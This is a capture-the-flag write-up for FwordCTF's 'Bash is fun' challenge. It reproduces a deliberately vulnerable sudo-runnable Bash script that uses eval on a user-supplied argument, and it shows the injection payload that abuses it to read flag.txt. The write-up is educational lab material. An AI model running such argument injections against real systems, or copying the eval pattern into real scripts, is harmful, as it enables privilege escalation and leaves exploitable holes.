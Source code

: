 ### Bash is fun
###### Description: Bash is fun, prove me wrong and do some privesc.

---
In this challenge we had to SSH into a box. Once in, we were presented with this:

![](./images/ss1.png)

There are 3 interesting looking files. `welcome.txt` only had the following contents:
```
Welcome to Fword Island Mr user ! You have nothing to do here
```
This isn't relevant to getting the flag. Now we're left with `welcome.sh` and `flag.txt`, which we have to obtain.
running a `sudo -l`, I saw that `user1` (us) has the permissions to execute `welcome.sh` as `user-privileged`.

![](./images/ss2.png) 

Now, let's take a look at `welcome.sh`:-

```bash
#!/bin/bash
name="greet"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -n | --name )
    shift; name=$1
    ;;
  -u | --username )
    shift; username=$1
    ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo "Welcome To SysAdmin Welcomer \o/"

eval "function $name { sed 's/user/${username}/g' welcome.txt ; }"
export -f $name
isNew=0
if [[ $isNew -eq 1 ]];then
	$name
fi

if [[ $permission -eq 1 ]];then
	echo "You are: "
	id
fi
```

Looking at the script, the answer is obvious. Line 22 has an `eval` command. `eval` expands all the variables and executes the resulting string as a command. Now we have the variable $name in that command, which we have the ability to assign values to using the command line arguments.

So if we run the following command:-

```bash
sudo -u user-privileged ./welcome.sh -n 'myfunc { cat flag.txt; }; myfunc; '
```

The resulting string would become:
```bash
eval "function  myfunc { cat flag.txt; }; myfunc; { sed 's/user/${username}/g' welcome.txt ; }"
```

This will create a function that cats flag.txt and execute the function right after.
Running this, we get the following output:

![](./images/ss3.png) 

And we have the flag!

**FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}**

Fun fact: This is a reference to the anime "Kuroko no Basket". If you're into anime, check it out! It's a pretty cool sports anime.
